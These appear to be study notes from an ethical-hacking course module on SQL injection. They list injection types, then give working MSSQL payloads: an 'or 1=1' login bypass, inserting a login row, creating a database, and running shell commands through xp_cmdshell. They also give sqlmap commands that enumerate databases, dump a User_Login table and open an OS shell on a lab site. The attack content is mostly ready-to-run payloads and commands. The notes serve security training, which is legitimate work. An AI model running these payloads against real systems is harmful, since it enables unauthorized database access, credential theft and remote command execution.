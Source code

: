 # 15: SQL Injection

Types:
- In-band SQL injection
- Blind/inferential SQL injection (no error messages from the system)
- Out-of-band SQL injection (such as database email functionality, or file writing and loading functions)

## Perform Attacks

### Attack MSSQL
``` blah' or 1=1 -- ```

``` blah';insert into login values ('john','apple123'); -- ```

``` blah';create database mydatabase; --  ```

``` blah';exec master..xp_cmdshell 'ping www.certifiedhacker.com -l 65000 -t'; -- ```

### Extract Databases by sqlmap

``` sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="[cookie value copied]" --dbs ```\
- get databases, and information about the web server OS, web application technology, and the backend DBMS.

``` sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="[cookie value copied]" -D moviescope --tables ```\
- -D specifies the DBMS database to enumerate 
- --tables enumerates DBMS database tables

``` sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="[cookie value copied]" -D moviescope -T User_Login --dump ```\
- Dump the table named "User_Login"

``` sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="[cookie value copied]" --os-shell ```
- --os-shell is the prompt for an interactive OS shell

``` os-shell> TASKLIST ```

### Other SQL injection tools
- Mole (https://sourceforge.net), 
- Blisqy (https://github.com), 
- blind-sql-bitshifting (https://github.com), 
- bsql (https://github.com), and 
- NoSQLMap (https://github.com) 

## Detect SQL Injection Vulnerabilities

